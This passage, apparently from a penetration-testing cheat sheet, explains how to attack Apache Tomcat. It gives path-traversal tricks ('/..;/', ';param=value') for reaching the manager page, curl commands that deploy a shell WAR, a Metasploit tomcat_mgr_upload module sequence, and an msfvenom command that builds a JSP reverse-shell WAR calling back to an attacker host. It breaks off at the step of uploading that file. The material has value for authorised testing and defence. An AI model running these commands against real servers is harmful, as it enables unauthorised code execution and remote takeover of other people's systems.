 ### **Path Traversal Exploit**

In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`

## RCE

Finally, if you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

### Limitations

You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**). Those details can be find under _tomcat-users.xml_ usually defined in `/usr/share/tomcat9/etc/tomcat-users.xml` (it vary between versions) (see [POST ](./#post)section).

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell

1. Create the war to deploy:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LPORT> -f war -o revshell.war
```

2. Upload the `revshell.war` file and access to it (`/revshell/`):
